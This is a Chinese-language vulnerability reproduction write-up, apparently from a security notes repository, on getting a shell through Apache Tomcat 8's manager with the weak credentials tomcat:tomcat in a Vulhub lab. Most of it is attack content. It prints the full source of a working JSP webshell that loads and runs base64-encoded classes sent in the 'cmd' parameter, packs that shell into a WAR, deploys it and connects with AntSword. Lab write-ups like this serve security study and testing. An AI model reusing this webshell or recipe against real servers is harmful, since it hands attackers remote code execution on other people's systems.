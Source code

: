 # Tomcat7+ 弱口令 && 后台getshell漏洞



| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 |                                                              |
| 漏洞名称 | Tomcat7+ 弱口令 && 后台getshell漏洞                          |
| 漏洞评级 | 高危                                                         |
| 影响范围 | Tomcat 版本：8.0                                             |
| 漏洞描述 | Tomcat 支持在后台部署 war 文件，可以直接将 webshell 部署到 web 目录下。其中，欲访问后台，需要对应用户有相应权限<br>tomcat8中默认没有任何用户，且manager页面只允许本地IP访问。只有管理员手工修改了这些属性的情况下，才可以进行攻击 |
| 修复方案 |                                                              |

### 1.1、漏洞描述

Tomcat 支持在后台部署 war 文件，可以直接将 webshell 部署到 web 目录下。其中，欲访问后台，需要对应用户有相应权限

Tomcat7+权限分为：

- manager（后台管理）
  - manager-gui 拥有html页面权限
  - manager-status 拥有查看status的权限
  - manager-script 拥有text接口的权限，和status权限
  - manager-jmx 拥有jmx权限，和status权限
- host-manager（虚拟主机管理）
  - admin-gui 拥有html页面权限
  - admin-script 拥有text接口权限

这些权限的究竟有什么作用，详情阅读 http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html

在`conf/tomcat-users.xml`文件中配置用户的权限：

```jsp
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

    <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>
    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
    
</tomcat-users>
```

可见，用户tomcat拥有上述所有权限，密码是`tomcat`。

正常安装的情况下，tomcat8中默认没有任何用户，且manager页面只允许本地IP访问。只有管理员手工修改了这些属性的情况下，才可以进行攻击。

### 1.2、漏洞等级

高危

### 1.3、影响版本

Tomcat 版本：8.0

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/tomcat/tomcat8

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到

![image-20230907195043319](./imgs/image-20230907195043319.png)

点击`Manager App`即可跳到管理登陆页面

![image-20230907195228899](./imgs/image-20230907195228899.png)

输入用户名密码       `tomcat:tomcat`，来到管理界面

![image-20230907195329503](./imgs/image-20230907195329503.png)





#### 2、漏洞扫描

#### 3、漏洞验证

登录到后台后可以通过部署`war`包进行`getshell`

找一个`a.jsp`木马

```jsp
<%!
      class U extends ClassLoader {
		  U(ClassLoader c){
			  super(c);
		  }
		  public Class g(byte[] b){
			  return super.defineClass(b,0,b.length);
		  }
	  }
	 public byte[] base64Decode(String str) throws Exception{
		 try{
			 Class clazz =Class.forName("sun.misc.BASE64Decoder");
			 return (byte[]) clazz.getMethod("decodeBuffer",String.class).invoke(clazz.newInstance(),str);
		 }catch (Exception e){
			 Class clazz =Class.forName("java.util.Base64");
			 Object decoder =clazz.getMethod("getDecoder").invoke(null);
			 return(byte[])decoder.getClass().getMethod("decode",String.class).invoke(decoder,str);
		 }
	 }
%>
<% 
       String cls =request.getParameter("cmd");
       if(cls != null){
         new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);	 
 }
%>

```

打包成`war`包

```bash
jar cvf tomcat.war a.jsp
```

![image-20230907200605863](./imgs/image-20230907200605863.png)

上传打包的`tomcat.war`

生成一个`tomcat`的路径

![image-20230907200826089](./imgs/image-20230907200826089.png)

在地址栏路径中访问`http://192.168.80.141:8080/tomcat/a.jsp`

![image-20230907201044386](./imgs/image-20230907201044386.png)

蚁剑连接，密码`cmd`

![image-20230907201030811](./imgs/image-20230907201030811.png)



